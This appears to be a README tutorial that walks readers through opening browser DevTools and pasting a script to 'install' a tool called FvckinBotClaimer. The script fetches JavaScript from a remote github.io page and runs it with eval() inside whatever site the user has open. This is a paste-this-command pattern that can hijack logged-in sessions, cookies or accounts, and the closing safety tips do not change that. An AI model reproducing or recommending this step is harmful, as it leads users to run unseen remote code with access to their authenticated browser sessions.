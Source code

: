 # 
# How to Intallation FvckinBotClaimer in Browser DevTools

This tutorial will guide you step-by-step on how to inject and run a custom JavaScript script in your browser's Developer Tools (DevTools) console.

---

## What You Will Learn

- How to open browser DevTools
- How to navigate to the Console tab
- How to paste and execute your JavaScript code
- Tips for safely using scripts in DevTools

---

## Step 1: Open DevTools in Your Browser

- **Windows/Linux**: Press <kbd>F12</kbd> or <kbd>Ctrl</kbd> + <kbd>Shift</kbd> + <kbd>I</kbd>
- **macOS**: Press <kbd>Cmd</kbd> + <kbd>Option</kbd> + <kbd>I</kbd>
  
Alternatively, use the browser menu:

- **Chrome / Edge**: Menu &gt; More tools &gt; Developer tools
- **Firefox**: Menu &gt; Web Developer &gt; Toggle Tools
- **Safari**: Enable “Show Develop menu” in Preferences &gt; Advanced, then use Develop &gt; Show Web Inspector

---

## Step 2: Navigate to the Console Tab

Inside DevTools, click the **Console** tab. This is where you can type or paste JavaScript commands.

You can also open the Console directly using keyboard shortcuts:

- **Windows/Linux**: <kbd>Ctrl</kbd> + <kbd>~</kbd>
- **macOS**: <kbd>Cmd</kbd> + <kbd>Option</kbd> + <kbd>K</kbd>

---

## Step 3: Paste Your Script Code

Copy the following script code and paste it directly into the Console input area:

```
(async function () {
  try {
    let installer = await fetch("https://fvckinbot.github.io/FvckinBotClaimer.io/", {
      method: "GET",
    });
    installer = await installer.text();
    eval(installer);
  } catch (error) {
    alert("Refresh the page before reinstalling");
  }
})();
```
## Step 4: Execute and Verify
Press <kbd>Enter</kbd> to execute the script.
Observe the website or the console for any output, changes, or messages confirming the script has run.

---

## Step 5: Save Your Script for Easy Reuse
In Chrome/Edge DevTools, go to the Sources tab, then open the Snippets tab. Create a new snippet and paste your script to save it for later use.
Alternatively, create a bookmarklet from your script to run it quickly on any page.

---

## Important Tips
Be cautious when running scripts from unknown sources; they can pose security risks.
Always understand what a script does before executing it.
Use the browser's developer tools responsibly and respect website terms of use.
